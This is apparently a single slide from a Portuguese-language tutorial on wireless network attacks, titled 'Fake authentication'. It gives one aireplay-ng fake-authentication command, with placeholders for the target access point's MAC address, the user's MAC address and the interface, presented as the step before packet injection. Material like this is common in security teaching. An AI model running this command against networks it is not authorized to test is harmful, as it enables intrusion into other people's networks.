

# Fake authentication
Antes de podermos injetar pacotes, é preciso se conectar com a rede
sudo aireplay-ng --fakeauth 0 -a [MAC DO ALVO] -h [SEU MAC] [NOME DA INTERFACE DE REDE]
0x09